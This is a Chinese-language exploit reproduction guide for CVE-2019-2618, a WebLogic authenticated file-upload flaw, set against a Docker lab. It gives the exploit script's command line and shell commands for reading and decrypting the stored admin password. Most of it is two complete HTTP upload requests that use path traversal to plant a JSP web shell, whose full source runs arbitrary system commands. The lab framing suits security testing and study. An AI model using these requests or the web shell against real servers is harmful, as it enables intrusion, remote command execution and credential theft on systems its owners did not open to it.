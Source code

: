 cve-2019-2618
=============

一、漏洞简介
------------

Weblogic Upload Vuln(Need username password)-CVE-2019-2618

二、漏洞影响
------------

Oracle WebLogic Server10.3.6.0.0

Oracle WebLogic Server12.1.3.0.0

Oracle WebLogic Server12.2.1.3.0

三、复现过程
------------

<https://github.com/ianxtianxt/cve-2019-2618>

### python使用

    python CVE-2019-2618.py url username password

![](resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId26.jpg)
![](resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId27.jpg)

### 解密weblogic密码

    root@f0cb7e674d7e:~/Oracle# cat /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/security/boot.properties |grep pass
    password={AES}dv/eNBsyg5GcDUbAKaQRheDZhzVk9yiTYVpXlGt9wEU=
    root@f0cb7e674d7e:~/Oracle# find / -name "*SerializedSystemIni.dat*"
    /root/Oracle/Middleware/user_projects/domains/base_domain/security/SerializedSystemIni.dat
    root@f0cb7e674d7e:~/Oracle# 

    weblogic 账号密码： weblogic/Oracle@123

![](resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId29.jpg)

### 使用docker搭建环境

参考vulnhub

    root@kali:~/vulhub/weblogic/CVE-2017-10271# ls
    1.png  docker-compose.yml  README.md  set_mirror.sh
    root@kali:~/vulhub/weblogic/CVE-2017-10271# docker-compose up -d

![](resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId31.jpg)

    POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
    Host: 10.10.20.166:7001
    Connection: close
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.21.0
    username: weblogic
    wl_request_type: app_upload
    cache-control: no-cache
    wl_upload_application_name: /../tmp/_WL_internal/bea_wls_internal/9j4dqk/war
    serverName: Jas502n
    password: Oracle@123
    content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
    archive: true
    server_version: 10.3.6.0
    wl_upload_delta: true
    Content-Length: 1081

    ------WebKitFormBoundary7MA4YWxkTrZu0gW
    Content-Disposition: form-data; name="shell.jsp"; filename="shell.jsp"
    Content-Type: false

     <%@ page import="java.util.*,java.io.*"%>
    <%
    %>
    <HTML><BODY>
    Commands with JSP
    <FORM METHOD="GET" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <%
    if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p;
        if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
            p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
        }
        else{
            p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        }
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
        }
    }
    %>
    </pre>
    </BODY></HTML> 

    ------WebKitFormBoundary7MA4YWxkTrZu0gW--

### 也可以换个目录上传

    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_deployment_internal.war
    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_internal.war 这是上传的路径
    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_internal
    /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_deployment_internal
    bea_wls_internal 
    bea_wls_deployment_internal 在同目录
    这是漏洞war位置

![](resource/(CVE-2019-2618)Weblogic任意文件上传漏洞/media/rId33.jpg)

    POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
    Host: 10.10.20.166:7001
    Connection: close
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.21.0
    username: weblogic
    wl_request_type: app_upload
    cache-control: no-cache
    wl_upload_application_name: /../tmp/_WL_internal/bea_wls_deployment_internal/gyuitk/war
    serverName: Jas502n
    password: Oracle@123
    content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
    archive: true
    server_version: 10.3.6.0
    wl_upload_delta: true
    Content-Length: 1084

    ------WebKitFormBoundary7MA4YWxkTrZu0gW
    Content-Disposition: form-data; name="shell.jsp"; filename="shell111.jsp"
    Content-Type: false

     <%@ page import="java.util.*,java.io.*"%>
    <%
    %>
    <HTML><BODY>
    Commands with JSP
    <FORM METHOD="GET" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <%
    if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p;
        if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
            p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
        }
        else{
            p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        }
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
        }
    }
    %>
    </pre>
    </BODY></HTML> 

    ------WebKitFormBoundary7MA4YWxkTrZu0gW-
